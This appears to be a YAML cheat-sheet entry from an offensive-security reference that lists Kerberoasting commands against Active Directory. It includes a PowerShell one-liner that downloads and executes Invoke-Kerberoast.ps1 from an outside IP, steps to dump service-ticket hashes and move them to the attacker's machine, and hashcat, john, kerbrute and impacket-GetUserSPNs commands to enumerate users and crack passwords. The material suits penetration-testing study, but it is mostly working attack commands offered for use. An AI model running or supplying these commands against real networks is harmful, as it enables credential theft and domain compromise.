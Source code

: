 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
        (1) IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
        (2) Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
        (3) Transfer the file over to attacker's system for cracking
        (4) Choose the account you want to crack and make into a unique file (for speed purposes)
        (5) hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force

    - description: With impacket
      code: |
        kerbrute userenum -d controller.local --dc dc.controller.local --downgrade User.txt  # check if pre-auth is disabled using so can request his TGT key
        john user3.hash --wordlist=/usr/share/wordlists/rockyou.txt
        impacket-GetUserSPNs controller.local/user3:Password3 -dc-ip 10.10.156.127 -request   # try to crack the kerberoasted accounts
        

resources: |
  https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
---
```

